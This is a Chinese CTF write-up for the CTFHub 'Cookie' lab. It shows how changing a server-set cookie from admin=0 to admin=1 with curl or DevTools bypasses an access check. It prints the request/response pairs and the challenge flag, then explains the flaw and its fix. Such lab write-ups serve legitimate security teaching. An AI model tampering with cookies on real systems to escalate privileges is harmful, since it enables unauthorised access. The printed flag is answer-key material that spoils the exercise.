

# WP：Cookie

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → Cookie
> **任务**：按题目提示修改 Cookie，拿到 flag。
> **提示**：在 DevTools 的 Application/Storage → Cookies 中查看 Cookie，或在 Burp 的请求头中查看。修改后重放请求，观察页面变化。
> **截图要求**：能看到修改后的 Cookie 请求头，以及服务器返回的 flag 或成功页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-b6b762aa8c82b62b.sandbox.ctfhub.com:10800 |
| Flag | ctfhub{35f348e263ca33839806054c} |

## 解题过程

浏览器第一次打开靶场时，页面显示 `hello guest. only admin can get flag.`，说明服务器认为我是"游客"，判断依据肯定是我身上带的状态。于是我在 Kali 终端里用 `curl -i` 发一次请求，把响应头一起看：响应里有 `Set-Cookie: admin=0`，也就是说服务器第一次访问就把"你是不是 admin"这个标记直接写在了 Cookie 里，值 `0` 表示否。既然权限完全由客户端提交的值决定，我就用 `curl -b "admin=1"` 手动把 Cookie 改成 `admin=1` 再请求一次，响应体立刻变成 flag。为了排除只是"页面文案变化"的可能，我又在浏览器 DevTools 的 Application → Cookies 里把 `admin` 改成 `1` 并刷新，页面同样直接显示 flag，和终端结果一致。

## 关键请求/响应

默认访问（拿到 `admin=0`，页面提示只有 admin 能取 flag）：

```http
GET / HTTP/1.1
Host: challenge-b6b762aa8c82b62b.sandbox.ctfhub.com:10800
User-Agent: curl/8.20.0

HTTP/1.1 200 OK
Set-Cookie: admin=0
Content-Type: text/html; charset=utf-8

hello guest. only admin can get flag.
```

修改 Cookie 后重放：

```http
GET / HTTP/1.1
Host: challenge-b6b762aa8c82b62b.sandbox.ctfhub.com:10800
User-Agent: curl/8.20.0
Cookie: admin=1

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

ctfhub{35f348e263ca33839806054c}
```

## 原理与复盘

Cookie 是**请求头**里的一个字段，浏览器每次访问同一站点都会自动带上，服务器靠它（通常再配合 Session ID）认出"你是谁、是什么身份"。本题的错误在于把身份判断（`admin=0/1`）直接放在客户端可随意修改的 Cookie 里，并且服务端只读值不校验——等于把"我是不是管理员"的答案交给用户自己填。正确做法是 Cookie 里只放一个不可预测的 Session ID，真正的身份和权限存在服务端；如果必须放在 Cookie 里，至少要签名/加密，让客户端改了也会校验失败。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。
